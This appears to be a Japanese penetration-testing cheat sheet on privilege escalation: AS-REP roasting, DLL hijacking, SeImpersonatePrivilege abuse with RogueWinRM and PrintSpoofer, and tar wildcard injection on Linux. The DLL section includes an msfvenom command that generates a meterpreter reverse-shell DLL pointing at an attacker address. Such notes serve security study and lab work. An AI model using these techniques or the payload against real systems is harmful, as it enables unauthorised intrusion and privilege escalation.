 # Windows

## AS-REP Roasting
**AS-REP roastingは、Kerberos pre authenticationなしでユーザからパスワードハッシュを取得できる攻撃**のことを指す。
Kerberosへの認証において、まずはAS-REQを送信するというステップがある。この要求に基づいてDCは認証成功を判断する。  
**認証に成功すると、DCはセッションキーとTGTを含むAS-REPを返す。**  
ユーザ名のパスワードとハッシュから生成したハッシュを使って暗号化されたタイムスタンプをAS-REQにのせてユーザの認証をDCに頼むという流れを、**Kerberos Pre Authentication**と呼ぶ。この機能が有効だとAS-REP roastingはできない。  
このKerberos pre authenticationがDC側で有効になっていない場合、攻撃者は任意のADユーザに代わってDCにAS-REQを返すよう要求ができる。

### 攻撃で使用できるツール
- Rubeus
- impacket-GetNPUsers
### 攻撃の条件
- DCのIPアドレスが分かっている
- AS-REQを送る際になりすますユーザの属するドメイン名が分かっている
- AS-REQを送る際になりすますドメインの、有効なユーザ名が分かっている
- Kerberosのポート(88番)と通信できる
- DC側の設定で、ターゲットユーザアカウントのKerberos pre authenticationが有効になっていない


## DLL Hijacking
.exeバイナリやそのバイナリに紐づいたサービスは、起動時にDLLを探す。  
**これらのDLLが存在しないかDLLが絶対パスを使わずに呼び出されるといったケースで、バイナリやサービスに悪意のあるDLLファイルを強制的にロード&実行させて権限昇格することができる。**  
  
msfvenom等でバイナリを生成し、DLLやバイナリを生成してリバースシェルを実行すると権限昇格に成功するなどできる。  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.293.22 LPORT=4444 -f dll -o hoge.dll
```

## Abuse Windows SeImpersonatePrivilege
### With RogueWinRM
Windows 10 1809以降に存在する脆弱性を突いた、権限昇格の脆弱性を狙った攻撃。  
Windows Server 2019, 2016でも動くが、5985ポートをリッスンポートに使うのでWinRMがWindows端末上で動いていると機能しない。
[脆弱性みっけた人の良記事](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/)  
  
ただしRogueWinRMは、ターゲット上でWinRMが動いているかいないかによて攻撃の成否が決まってしまう。  
なのでそのような場合はprintspoofer.exeで代替できることがある。

### 攻撃で使用できるツール
- RogueWinRM
- PrintSpoofer

### 攻撃の条件
- 端末のバージョンがWindows 10 1809以降、もしくはWindows Server 2019, 2016であること
- 端末上で5985ポートを使用していないこと
- BITSがWindows上で起動していないこと(バックグラウンドでWindows Updateが走ってるときとかはBITSがうごく)
- 実行ユーザがSeImpersonatePrivilege権限を持っていること

============-
# Linux

## ワイルドカードインジェクション  
### 概要
tarコマンドの第三引数に*が指定されている場合、そこに--checkpointを入れて任意のコマンド実行ができる。  
tarがバックアップ用のスケジュールタスクだったり、root権限で実行されるようなタスクであった場合、root権限で実行して権限昇格できたりする。  
tarが圧縮するファイルのフォルダのとこに書き込み権限が無いといけない。
### 参考情報
[ワイルドカードインジェクション1](https://medium.com/@silver-garcia/how-to-abuse-tar-wildcards-for-privilege-escalation-tar-wildcard-injection-612a6eac0807)  
[ワイルドカードワイルインジェクション2](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)  

### 攻撃の条件
- tarの引数に*が末尾に指定されている。
- root権限(スケジュールタスクでもいい)でtarが実行できる。
- tarが*で圧縮ファイル群を指定する時、この圧縮ファイルたちのフォルダにファイルを作れる必要がある。